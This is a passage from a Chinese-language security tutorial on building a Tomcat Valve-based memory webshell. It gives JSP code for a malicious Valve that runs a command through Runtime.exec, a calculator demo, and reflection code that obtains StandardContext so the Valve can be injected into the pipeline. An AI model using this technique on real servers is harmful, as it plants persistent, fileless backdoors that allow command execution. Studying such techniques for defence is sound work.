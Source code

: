 ```jsx
StandardContext.getPipeline() = StandardPipeline; // 二者等价
```

<h2 id="alw1S">Valve何处加载</h2>
<font style="color:rgb(80, 80, 92);">有个问题：我们的 Valve 是应该放到 Filter，Listener，还是 Servlet 里面？</font>

应该是在Servlet中被加载的，因为在Servlet内存马的`HTTP11Processor`<font style="color:rgb(80, 80, 92);"> 的加载 HTTP 请求当中，是出现了 Pipeline 的 basic 的</font>

所以我们通过 Servlet 来加载。

<h2 id="FeMug">实现</h2>
<h3 id="gm19w">思路分析</h3>
现在的思路就已经很明确了

1. 编写恶意Valve
2. 反射获取`StandardContext`
3. 调用`getPieline（）`方法获取`StandardPipeline`
4. 通过`addValve`方法将恶意Valve添加入`StandardPipeline`

<h3 id="i4VKS">Valve内存马实现</h3>
我们先编写一个恶意的Valve内存马

```jsx
<%!
  public class shellValve extends ValveBase {
    @Override
  public void invoke(Request request, Response response) throws IOException, ServletException {
    Runtime.getRuntime().exec("calc");
  }
}
%>
```

后续和前几个内存马一样，通过反射来获取`StandardContext`

```java
ServletContext servletContext = request.getSession().getServletContext();
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
```

这里从别的师傅那里看到的，更简单方法的获取`StandardContext`，两个都是可以的

```jsx
// 更简单的方法 获取StandardContext  
 Field reqF = request.getClass().getDeclaredField("request");  
 reqF.setAccessible(true);  
 Request req = (Request) reqF.get(request);  
 StandardContext standardContext = (StandardContext) req.getContext();  
```
